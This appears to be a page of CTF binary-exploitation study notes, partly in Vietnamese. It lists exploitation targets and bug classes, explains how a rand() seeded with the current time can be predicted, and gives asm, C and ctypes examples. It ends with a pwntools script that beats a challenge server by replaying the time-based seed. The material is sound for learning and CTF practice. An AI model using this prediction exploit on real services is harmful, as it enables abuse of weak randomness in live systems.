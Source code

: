 # Other Attack

- &environ
- fini_array
- rtld_global
- Type Error
- Command Injection
- Path Traversal
- OTHER LOGIC BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```asm
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```

    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
```python
#!/usr/bin/env python3
from pwn import *
import random
import time
import calendar
import datetime
from ctypes import *
import random
elf = ELF("./random")
libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
# p = elf.process()
p = remote("challs.tfcctf.com", "32615")
context.update(binary=elf, log_level="DEBUG")
# gdb.attach(p, '''
# 	b *vuln
# 	''')

current_GMT = time.gmtime()
time_stamp = calendar.timegm(current_GMT)
libc.srand(time_stamp)
print(p.recvline())
for i in range(10):
    number = libc.rand()
    p.sendline(str(number).encode())


p.interactive()
```

